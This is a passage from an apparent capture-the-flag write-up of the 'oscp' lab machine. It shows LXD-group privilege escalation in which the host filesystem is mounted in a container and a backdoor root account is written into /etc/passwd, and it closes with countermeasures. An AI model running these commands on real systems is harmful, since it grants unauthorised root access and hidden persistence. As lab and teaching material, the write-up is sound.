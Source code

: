 Notice that the root file system was mounted to `/mnt/root` in the container. Here, I had full read/write access to the host.
Then, I appended a backdoor root user entry to the `/etc/passwd` file from within the container for more persistent access:

```
$ openssl passwd
Password:
Verifying - Password:
uPz1zBu9ZKVUg
```

From within the container:

```bash
echo 'r0kit:uPz1zBu9ZKVUg:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd
```

Since SSH was only enabled via public key, I used my existing shell session to switch to the r0kit user:

```
-bash-5.0$ su r0kit
Password:
root@oscp:/home/oscp# id
uid=0(root) gid=0(root) groups=0(root)
```

At this point, I had full remote code execution as root on the machine.

### Failed Recon

* Could not use the oscp user's private key to SSH as root.
* Could not recover the plaintext password for the admin user in the wordpress database in a reasonable amount of time.
* Could not recover the oscp user's password.

## Countermeasures

* Never expose SSH private keys on directories accessible via a web server.
* Only allow super users of the machine to be part of the `lxc/lxd` groups. Any user that is part of that group implicitly has root read/write/execute privileges on the system.
